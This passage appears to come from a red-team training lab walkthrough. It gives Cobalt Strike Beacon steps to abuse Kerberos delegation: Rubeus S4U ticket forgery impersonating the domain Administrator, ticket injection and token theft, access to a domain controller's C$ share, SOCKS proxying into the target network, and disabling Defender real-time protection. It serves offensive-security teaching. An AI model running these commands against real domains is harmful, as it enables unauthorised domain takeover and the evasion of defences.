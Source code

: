     > You may need to run it a few times.
    
-  Use the TGT to request a usable service ticket for cifs/lon-dc-1, impersonating the default domain administrator.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /impersonateuser:Administrator /self /altservice:cifs/lon-dc-1 /ticket:[TGT] /nowrap`
    
    > The **/self** parameter is key here.
    
-  Inject the ticket into a sacraficial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:[CIFS TICKET]`
    
-  Impersonate the process.
    
    1. steal_token [PID]
-  Verify the ticket was injected.
    
    1. run klist
-  Use the ticket to list the C$ share on _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$

### Resource-Based Constrained Delegation
- Start a SOCKS proxy on the medium-integrity Beacon.
    
    1. socks 1080
-  From the Windows Start Menu, launch Proxifier.
    
-  Go **Profile > Proxy Servers** and add a new proxy server.
    
    1. Address: 10.0.0.5
    2. Port: 1080
    3. Protocol: Version 4
-  Use this proxy by default? -> No.
    
-  Edit Proxification Rules now? -> Yes.
    
-  Add a new proxification rule.
    
    1. Name: Beacon
    2. Applications: Any
    3. Target hosts: 10.10.120.0/23
    4. Target ports: Any
    5. Action: Proxy SOCKS4 10.0.0.5
-  Open a Terminal window as administrator.
    
-  Add a host entry for _lon-dc-1_.
    
    1. Add-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Value '10.10.120.1 lon-dc-1'
-  Disable Defender's real-time protection.
    
    1. Set-MpPreference -DisableRealtimeMonitoring $true
-  Import PowerView.
    